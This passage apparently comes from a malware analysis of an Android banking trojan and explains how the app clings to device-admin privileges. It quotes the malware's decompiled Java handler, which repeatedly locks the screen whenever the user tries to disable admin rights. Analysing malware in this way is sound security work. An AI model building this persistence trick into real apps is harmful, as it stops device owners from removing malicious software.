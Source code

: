 ![admin_ask](/assets/res/malware/sberbank/admin_ask.png)

## Admin privileges

As we saw, the app will ask for admin privileges until the user accepts or uninstalls. However, if the privileges are granted to the malicious app, a trick
is used to keep these privileges as long as possible:

> ```java
>public CharSequence onDisableRequested(final Context paramContext, Intent paramIntent){
>	Intent startIntent = paramContext.getPackageManager().getLaunchIntentForPackage("com.android.settings");
>	startIntent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
>	paramContext.startActivity(paramIntent);
>	final DevicePolicyManager policyManager = (DevicePolicyManager)paramContext.getSystemService(DEVICE_POLICY_SERVICE);
>	policyManager.lockNow();
>	new Thread(new Runnable(){
>		public void run(){
>			for (int i = 0; i < 70;i++){
>				policyManager.lockNow();
>				try{
>					Thread.sleep(100L);
>				}
>				catch (InterruptedException localInterruptedException){
>					localInterruptedException.printStackTrace();
>				}
>			}
>		}
>	}).start();
>	return "";
>}
> ```
